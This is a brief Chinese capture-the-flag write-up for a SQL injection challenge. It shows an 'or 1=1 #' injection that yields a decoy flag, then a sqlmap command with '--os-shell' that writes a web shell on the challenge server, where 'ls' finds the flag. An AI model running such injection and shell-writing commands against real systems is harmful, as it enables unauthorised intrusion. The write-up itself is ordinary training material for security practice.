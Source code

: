 ### SQLMap GetShell

话不多说，直接上题（青少年 CTF 练习平台）

![](https://pic1.imgdb.cn/item/681329c958cb8da5c8d60491.png)

这题如果直接 `or 1=1 #` 会拿到假 flag

![](https://pic1.imgdb.cn/item/681329ee58cb8da5c8d604a6.png)

使用 SQLMap 写入 Shell

```shell
python sqlmap.py -u "http://challenge.qsnctf.com:31899/?id=-2" --os-shell
```

在这里选择 4

![](https://pic1.imgdb.cn/item/68132cdd58cb8da5c8d60731.png)

写入成功

![](https://pic1.imgdb.cn/item/68132d2b58cb8da5c8d6075c.png)

输入 `ls` 测试

![](https://pic1.imgdb.cn/item/68132d4e58cb8da5c8d6076e.png)

成功拿到 flag

![](https://pic1.imgdb.cn/item/68132dad58cb8da5c8d607ac.png)